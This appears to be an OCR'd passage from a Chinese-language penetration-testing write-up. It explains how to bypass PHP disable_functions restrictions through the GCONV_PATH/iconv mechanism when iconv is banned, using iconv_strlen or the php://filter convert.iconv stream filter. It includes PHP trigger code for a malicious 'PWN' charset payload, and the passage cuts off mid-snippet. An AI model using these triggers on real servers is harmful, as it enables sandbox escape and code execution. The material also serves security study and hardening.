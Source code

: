 *   **Bypass iconv 1 (使用 `iconv_strlen`):**
    *   **原理:** 如果 `iconv` 被禁，但 `iconv_strlen` 未被禁，`iconv_strlen` 同样会调用底层的 `iconv_open`，可以用来触发漏洞。
    ![bypass iconv 1 1](./images/iconv5.png) (phpinfo 显示 `iconv` 被禁，`iconv_strlen` 可用)
    *   **修改 Payload:** 将 `iconv_trigger.php` 中的 `iconv("PWN", "UTF-8", "test");` 替换为 `@iconv_strlen("test", "PWN");`。
    ![bypass iconv 1 2](./images/iconv6.png) (修改后的触发代码)

*   **Bypass iconv 2 (使用 Stream Filter `convert.iconv.*`):**
    *   **原理:** 如果 `iconv` 和 `iconv_strlen` 都被禁，PHP 的流过滤器 `convert.iconv.*`（例如用于 `file_get_contents` 或 `fopen`）在处理数据时也会调用底层的 `iconv` 实现，同样可以触发 `GCONV_PATH` 机制。
    ![bypass iconv 2 1](./images/iconv7.png) (phpinfo 显示 `iconv` 相关函数被大量禁用)
    *   **修改 Payload:** 将 `iconv_trigger.php` 中的触发部分替换为使用流过滤器，例如：
        ```php
        // Trigger using file_get_contents with convert.iconv filter
        // php://filter/read=convert.iconv.PWN.UTF-8/resource=php://temp
        // Creates a temporary stream, reads from it using the filter, triggering iconv
        if (function_exists('file_get_contents')) {
             @file_get_contents('php://filter/read=convert.iconv.PWN.UTF-8/resource=php://temp');
        } else {
             die("file_get_contents function is disabled.");